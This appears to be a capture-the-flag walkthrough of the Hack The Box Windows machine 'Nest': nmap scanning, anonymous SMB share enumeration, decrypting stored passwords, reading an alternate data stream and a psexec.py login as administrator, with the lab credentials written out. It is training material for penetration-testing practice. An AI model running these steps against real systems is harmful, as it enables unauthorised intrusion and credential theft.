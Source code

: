 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🧭 Reconnaissance

**Nmap Full TCP Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.178
```

**Nmap Service/Script Scan**
```bash
nmap -p 445,4386 -sC -sV -oA scripts/nmap-tcpscripts 10.10.10.178
```

**Key Ports Identified**
- TCP 445: SMB
- TCP 4386: HQK Reporting Service (custom)

---

## 📁 Initial [SMB](SMB.md) Enumeration

**Anonymous SMB Access**
```bash
smbmap -H 10.10.10.178 -u null
smbclient -N //10.10.10.178/Users
smbclient -N //10.10.10.178/Data
```

**Files of Interest**
- `Welcome Email.txt` → Provided creds: `TempUser : welcome2019`

---

## 🔑 Gaining Access as TempUser

**Enumerate Shares With Credentials**
```bash
smbmap -H 10.10.10.178 -u TempUser -p welcome2019
smbclient -U TempUser //10.10.10.178/Data
```

**Pull Files**
```bash
recurse ON
prompt OFF
mget *
```

**Find Encrypted Password**
- In `RU_config.xml` for user `c.smith`
- Password: `fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=`

**Find Path Hint**
- In `Notepad++` config file → referenced: `\\HTB-NEST\Secure$\IT\Carl`

---

## 🔓 Decrypting C.Smith's Password

**Locate Visual Basic Project**
```bash
smbclient -U TempUser //10.10.10.178/Secure$
cd "IT\Carl"
recurse ON
prompt OFF
mget *
```

**Decrypt Password via DotNetFiddle**
```vbnet
DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")
```
- Result: `xRxRxPANCAK3SxRxRx`

---

## 🧑‍💻 Shell as C.Smith

**Verify SMB Access**
```bash
smbmap -H 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
```

**Retrieve user.txt**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd C.Smith
get user.txt
```

---

## 🧠 Debug Access to HQK Reporting Service

**Manual Connect With Telnet**
```bash
telnet 10.10.10.178 4386
```

**Find Hidden Stream in SMB**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd "HQK Reporting"
allinfo "Debug Mode Password.txt"
get "Debug Mode Password.txt:Password"
```
- Result: `WBQ201953D8w`

**Enable Debug Mode in HQK**
```bash
debug WBQ201953D8w
```

**Show LDAP Config with Encrypted Admin Password**
```bash
setdir LDAP
showquery 2
```

---

## 🔓 Decrypting Admin Password

**Grab and Open HqkLdap.exe in dnSpy**
- Find decryption logic
- Run with breakpoint or patched console output

**Resulting Password**
- `XtH4nkS4Pl4y1nGX`

---

## 👑 Shell as SYSTEM

**PSExec Shell**
```bash
psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
```

**Grab root.txt**
```bash
type C:\Users\Administrator\Desktop\root.txt
```